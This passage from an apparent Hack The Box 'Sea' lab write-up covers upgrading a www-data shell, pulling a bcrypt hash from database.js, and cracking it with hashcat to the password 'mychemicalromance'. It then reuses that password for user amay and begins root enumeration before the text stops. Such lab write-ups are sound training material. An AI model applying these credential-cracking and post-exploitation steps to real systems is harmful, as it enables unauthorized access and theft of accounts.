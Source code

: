 #### Shell as amay
###### Upgrade shell
Upgrade the shell by running:
- `script /dev/null -c bash`
- `Ctrl+Z` to background process
- `stty raw -echo; fg`

###### Enumeration
Since we are `www-data`, go to */var/www* and start enumerating here and look for credentials or a way to privilege escalate. In */sea/data*, there is the file *database.js* that contains a password hash, likely to be hashed with bcrypt.
- `$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q`

![[Pasted image 20240902191321.png]]

###### Crack hash
Identify the hash with `haiti`:
```
┌──(chronopad㉿VincentXPS)-[~/HTB/newlabs/sea-linux/CVE-2023-41425]
└─$ haiti '$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/P
jDnXm4q'
bcrypt [HC: 3200] [JtR: bcrypt]
Blowfish(OpenBSD) [HC: 3200] [JtR: bcrypt]
Woltlab Burning Board 4.x
```

Use `hashcat` to crack the hash. Found password `mychemicalromance`.
```
┌──(chronopad㉿VincentXPS)-[~/HTB/newlabs/sea-linux/CVE-2023-41425]
└─$ hashcat -m 3200 cred.hash ~/Arsenal/wordlists/rockyou.txt
...SNIP...
$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q:mychemicalromance
```

There are two normal users on the machine, which can be checked by listing the directories in */home*, which are `amay` and `geo`. Credential worked for `amay`.

#### Shell as root 
###### Traditional enumeration
```
# Kernel information
amay@sea:~$ uname -a
Linux sea 5.4.0-190-generic #210-Ubuntu SMP Fri Jul 5 17:03:38 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux

# OS release information
amay@sea:~$ cat /etc/os-release
NAME="Ubuntu"
VERSION="20.04.6 LTS (Focal Fossa)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 20.04.6 LTS"
VERSION_ID="20.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=focal
UBUNTU_CODENAME=focal

# Environment variables
amay@sea:~$ env
SHELL=/bin/bash
PWD=/home/amay
LOGNAME=amay
```